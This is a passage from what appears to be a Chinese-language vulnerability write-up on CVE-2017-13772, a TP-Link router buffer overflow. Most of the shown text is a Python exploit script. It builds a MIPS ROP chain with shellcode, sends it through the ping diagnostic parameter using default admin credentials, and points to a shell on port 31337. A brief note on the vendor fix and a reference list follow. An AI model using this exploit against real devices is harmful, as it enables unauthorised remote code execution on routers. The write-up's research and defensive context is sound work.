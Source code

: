 ```py
sleep_addr = "\x2a\xb3\x50\x90"
stack_gadg = "\x2A\xAF\x84\xC0"
call_code = "\x2A\xB2\xDC\xF0"
def first_exploit(url, auth):
#                      trash      $s1        $ra
    rop = "A"*164 + gadg_2  + gadg_1 + "B"*0x20 + sleep_addr
    rop += "C"*0x20 + call_code + "D"*4 + stack_gadg + nop*0x20 + shellcode
    params = {'ping_addr': rop, 'doType': 'ping', 'isNew': 'new', 'sendNum': '20', 'pSize': '64', 'overTime': '800', 'trHops': '20'}
    new_url = url + "PingIframeRpm.htm?" + urllib.urlencode(params)
    print "[debug] sending exploit..."
    print "[+] Please wait a few seconds before connecting to port 31337..."
    req = urllib2.Request(new_url) 
    req.add_header('Cookie', 'Authorization=Basic %s' %auth)
    req.add_header('Referer', url + "DiagnosticRpm.htm")                         
    resp = urllib2.urlopen(req)
if __name__ == '__main__':
    data = login("192.168.0.1", "admin", "admin")
    first_exploit(data[0], data[1])

```

### PART6 漏洞防护
- 为了修复漏洞，厂商需要以更安全的操作（例如strncpy）代替大部分strcpy调用；因此，修复程序通过**移除用户输入中的strcpy调用**来合理保护缓冲区溢出。
## 五、参考资料
- [CVE-2017-13772 Detail](https://nvd.nist.gov/vuln/detail/CVE-2017-13772)
- [Remote Code Execution (CVE-2017-13772) Walkthrough on a TP-Link Router](https://fidusinfosec.com/tp-link-remote-code-execution-cve-2017-13772/)
- [TP-LINK (CVE-2017-13772) 远程执行代码的利用](https://zhuanlan.kanxue.com/article-4392.htm)
- [Fix for vulnerabilities of TL-WR740N & TL-WR940N](https://www.tp-link.com/hk/support/faq/2166/)